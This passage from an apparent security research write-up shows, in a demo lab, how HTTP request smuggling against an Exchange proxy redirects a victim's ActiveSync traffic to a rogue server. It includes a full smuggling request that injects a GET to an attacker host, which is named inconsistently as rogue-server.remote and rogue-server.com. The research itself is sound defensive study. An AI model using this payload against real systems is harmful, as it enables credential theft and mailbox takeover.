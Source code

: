 ##### Migrating the victims' mailbox to our rogue exchange

To demonstrate that the above theory works, we connected a 'victim' (tgad.local\\**bob**) to our demo environment; an Exchange server behind the proxy `tgvmex01.local`. Bob is connected using ActiveSync. His iOS Exchange configuration is included below. 

[![Legitimate settings of the Exchange client](/img/harvesting-active-directory-credentials-via-http-request-smuggling/5_legitimate_settings.png)](/img/harvesting-active-directory-credentials-via-http-request-smuggling/5_legitimate_settings.png){:target="_blank"}{:rel="noopener noreferrer"}{:data-lightbox="legitimate-settings"}{:data-title="Legitimate settings of the Exchange client"}

A threat actor that would like to migrate Bob's mailbox to a rogue exchange server needs to start by performing an HRS attack which redirects Bob's ActiveSync requests to a rogue server. An example is included below.

{% highlight http %}
POST /owa/auth/logon.aspx?2whS=929722944 HTTP/1.1
 Transfer-Encoding: chunked
Connection: keep-alive
Host: tgvmex01.proxy
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: nl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 160

3F
6kqfa=x&url=https%3a%2ftgvmex01.proxy%2fowa%2f&reason=0&whfto=x
0

GET https://rogue-server.remote/ HTTP/1.1
X-Ignore: X
{% endhighlight %}

The server `rogue-server.com` always serves the same response, no matter what the request is. This response is included below and has the `451 Unavailable For Legal Reasons` status with the rogue exchange server in the response headers.
